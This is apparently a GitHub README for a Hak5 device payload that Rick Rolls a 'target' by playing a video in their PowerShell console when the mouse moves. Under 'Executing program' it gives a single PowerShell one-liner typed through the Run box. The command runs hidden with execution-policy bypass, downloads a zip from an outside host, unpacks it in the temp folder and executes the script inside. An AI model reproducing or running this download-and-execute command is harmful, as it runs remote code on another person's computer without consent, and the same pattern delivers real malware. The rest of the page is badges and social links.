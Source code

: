 ![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 

<h1 align="center">
  <a href="https://git.io/typing-svg">
    <img src="https://readme-typing-svg.herokuapp.com/?lines=Welcome+to+the;Adv+RickRoll!+😈&center=true&size=30">
  </a>
</h1>

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# ADV-RickRoll

A script used to do an advanced rick roll on your target

## Description

This program Rick Rolls your target without opening a muted youtube video.
A Rick Roll video is downloaded and played in your powershell console when a mouse movement is detected.

## Getting Started

### Dependencies

* An internet connection
* Windows 10,11

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

* Plug in your device
* Invoke-WebRequest will be entered in the Run Box to download and execute the dependencies and payload
```
powershell -w h -NoP -NonI -Ep Bypass $D="$env:tmp";iwr -Uri 'https://jakoby.lol/qee' -O "$D\rr.zip";Expand-Archive "$D\rr.zip" -Des $D\rr -Force;. "$D\rr\rr.ps1"
```

<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing

All contributors names will be listed here

I am Jakoby

<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

* 0.1
    * Initial Release

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<h2 align="center">📱 My Socials 📱</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://youtube.com/c/IamJakoby?sub_confirmation=1">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/youtube-svgrepo-com.svg width="48" height="48" alt="C#" />
      </a>
      <br>YouTube
    </td>
    <td align="center" width="96">
      <a href="https://twitter.com/I_Am_Jakoby">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/twitter.png width="48" height="48" alt="Python" />
      </a>
      <br>Twitter
    </td>
    <td align="center" width="96">
      <a href="https://www.instagram.com/i_am_jakoby/">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/insta.png width="48" height="48" alt="Golang" />
      </a>
      <br>Instagram
    </td>
    <td align="center" width="96">
      <a href="https://discord.gg/MYYER2ZcJF">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/discord-v2-svgrepo-com.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>Discord
    </td>
    <td align="center" width="96">
      <a href="https://www.tiktok.com/@i_am_jakoby?lang=en">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/raw/main/img/tiktok.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>TikTok
    </td>    
  </tr>
</table>
</div>

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [MG](https://github.com/OMG-MG)

<p align="right">(<a href="#top">back to top</a>)</p>

<p align="center">
        <img src="https://raw.githubusercontent.com/bornmay/bornmay/Update/svg/Bottom.svg" alt="Github Stats" />
</p>
